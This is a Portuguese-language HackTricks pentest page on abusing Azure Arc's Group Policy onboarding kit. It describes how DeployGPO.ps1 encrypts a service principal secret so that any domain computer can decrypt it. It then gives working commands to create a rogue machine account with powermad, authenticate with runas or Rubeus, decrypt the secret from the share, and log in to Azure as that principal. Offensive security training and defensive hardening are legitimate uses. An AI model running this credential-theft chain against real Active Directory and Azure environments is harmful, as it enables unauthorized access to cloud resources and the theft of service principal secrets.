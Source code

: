 # Az - Arc script de implantação GPO vulnerável

{{#include ../../../banners/hacktricks-training.md}}

### Identificando os Problemas

Azure Arc permite a integração de novos servidores internos (servidores de domínio unidos) ao Azure Arc usando o método de Objeto de Política de Grupo. Para facilitar isso, a Microsoft fornece um kit de ferramentas de implantação necessário para iniciar o procedimento de integração. Dentro do arquivo ArcEnableServerGroupPolicy.zip, os seguintes scripts podem ser encontrados: DeployGPO.ps1, EnableAzureArc.ps1 e AzureArcDeployment.psm1.

Quando executado, o script DeployGPO.ps1 realiza as seguintes ações:

1. Cria o GPO de Integração de Servidores Azure Arc dentro do domínio local.
2. Copia o script de integração EnableAzureArc.ps1 para o compartilhamento de rede designado criado para o processo de integração, que também contém o pacote de instalação do Windows.

Ao executar este script, os administradores de sistema precisam fornecer dois parâmetros principais: **ServicePrincipalId** e **ServicePrincipalClientSecret**. Além disso, requer outros parâmetros, como o domínio, o FQDN do servidor que hospeda o compartilhamento e o nome do compartilhamento. Detalhes adicionais, como o ID do locatário, grupo de recursos e outras informações necessárias, também devem ser fornecidos ao script.

Um segredo criptografado é gerado no diretório AzureArcDeploy no compartilhamento especificado usando a criptografia DPAPI-NG. O segredo criptografado é armazenado em um arquivo chamado encryptedServicePrincipalSecret. Evidências disso podem ser encontradas no script DeployGPO.ps1, onde a criptografia é realizada chamando ProtectBase64 com $descriptor e $ServicePrincipalSecret como entradas. O descriptor consiste nos SIDs do grupo de Computadores de Domínio e Controladores de Domínio, garantindo que o ServicePrincipalSecret só possa ser descriptografado pelos grupos de segurança de Controladores de Domínio e Computadores de Domínio, conforme observado nos comentários do script.
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Temos as seguintes condições:

1. Conseguimos penetrar com sucesso na rede interna.
2. Temos a capacidade de criar ou assumir o controle de uma conta de computador dentro do Active Directory.
3. Descobrimos um compartilhamento de rede contendo o diretório AzureArcDeploy.

Existem vários métodos para obter uma conta de máquina dentro de um ambiente AD. Um dos mais comuns é explorar a cota de conta de máquina. Outro método envolve comprometer uma conta de máquina através de ACLs vulneráveis ou várias outras configurações incorretas.
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Uma vez que uma conta de máquina é obtida, é possível autenticar-se usando essa conta. Podemos usar o comando runas.exe com a flag netonly ou usar pass-the-ticket com Rubeus.exe.
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Ao ter o TGT para nossa conta de computador armazenado na memória, podemos usar o seguinte script para descriptografar o segredo do principal de serviço.
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

Neste ponto, podemos reunir as informações restantes necessárias para conectar ao Azure a partir do arquivo ArcInfo.json, que está armazenado na mesma unidade de rede que o arquivo encryptedServicePrincipalSecret. Este arquivo contém detalhes como: TenantId, servicePrincipalClientId, ResourceGroup e mais. Com essas informações, podemos usar o Azure CLI para autenticar como o serviço principal comprometido.

## Referências

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
